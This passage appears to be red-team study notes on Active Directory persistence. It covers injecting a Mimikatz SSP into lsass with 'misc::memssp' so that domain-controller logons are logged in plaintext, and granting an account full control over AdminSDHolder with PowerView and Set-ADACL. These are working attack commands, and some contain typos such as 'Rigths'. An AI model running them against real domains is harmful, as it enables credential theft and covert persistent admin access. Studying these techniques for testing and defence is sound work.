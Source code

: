 **Way2: Using mimikatz, inject into lsass (not stable with Server 2016/sometimes it works) / injects into lsass** \
Invoke-Mimikatz -command '"misc::memssp"'\
No reboot required\
All logons on the DC are logged to C:\Windows\system32\kiwissp.log

**mimilib.dll can be edited that the output is written in any directory e.g. SYSVOL or similar**

## 🔑ACLs - AdminSDHolder

### Description

* AdminSDHolder is a special container on the DC (MMC AD users\&computers/System/AdminSDHolder / Properties)
* Resides in the System container of a domain and used to control the permissions, using an ACL, for certain built-in privileged groups (called Protected Groups)
* ❓ AdminSDHolder its own ACL is used for Protected Groups
* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of Protected Groups/AdminSDholder and overwrites all members of Protected Group ACLs with the ACLs of the AdminSDholder
* Protected groups: Domain Admins, Administrators, Enterpse Admins, Domain Controllers, Read-only Domain Controllers, Schema AdminsAccount Operators, Backup Operators, Server Operators, Print Operators, Replicator\
  ❓ Protected User group as well
*   Well known abuse of proteced groups - see following permissions\


    <figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Requirements

* DA permissions required

### Tools

**Attack**\
****Modify the Permissions of AdminSDholder and add your Account as member via GUI or remotly

Add FullControl permissions for a user to the AdminSDHolder using PowerView as DomainAdmin:\
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName yourusername -Rigths All -verbose

Using ActiveDirectory Moduel and Set-ADACL:\
Set-ADACL -DistinguisedName 'CN=AdminSDHolder,CN=System,DC=subdom,DC=dom,DC=local' -Principal yourusername -verbose

